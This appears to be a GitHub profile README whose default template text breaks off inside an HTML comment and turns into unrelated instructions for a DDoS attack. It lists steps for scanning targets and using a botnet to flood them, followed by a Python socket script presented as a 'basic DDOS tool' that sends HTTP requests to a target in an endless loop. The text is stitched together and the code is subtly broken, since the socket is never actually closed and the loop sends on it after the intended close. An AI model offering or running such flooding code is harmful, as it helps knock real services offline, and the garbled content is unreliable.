 ### Hi there 👋

<!--
**FroxxStone/FroxxStone** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 1. The attacker obtains an IP address and port to use as the target. This can be done through searching or by remotely scanning for vulnerable targets. 

2. The attacker builds a “botnet”, or a set of computers that can be controlled by a single person, and uses this to send large amounts of traffic to the target IP address and port. 

3. The attacker sends all of this traffic to the target IP address and port at the same time, resulting in the webserver or application becoming overloaded and unable to respond to requests. 

4. The attacker continues to attack the target until it becomes unavailable or unreachable. 

It is important to note that DDoS attacks are illegal in most jurisdictions, and should not be attempted without permission.A basic DDOS tool can be created using Python.
Python provides a very powerful library “socket” which can be used to create a basic DDOS tool.


import socket

#Define target
target = "www.example.com"

#create a socket
# AF_INET refers to the address family ipv4
# SOCK_STREAM means connection oriented TCP protocol
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connect to the target
client.connect((target, 80))

# send some data
# Since we are using TCP the connection remains open until we close it with client.close()
client.send("GET / HTTP/1.1\r\nHost: "+target+"\r\n\r\n")

# recieve some data
response = client.recv(4096)

# close the connection
client.close

# repeat the request many times
while True:
	client.send("GET / HTTP/1.1\r\nHost: "+target+"\r\n\r\n")
	response = client.recv(4096)
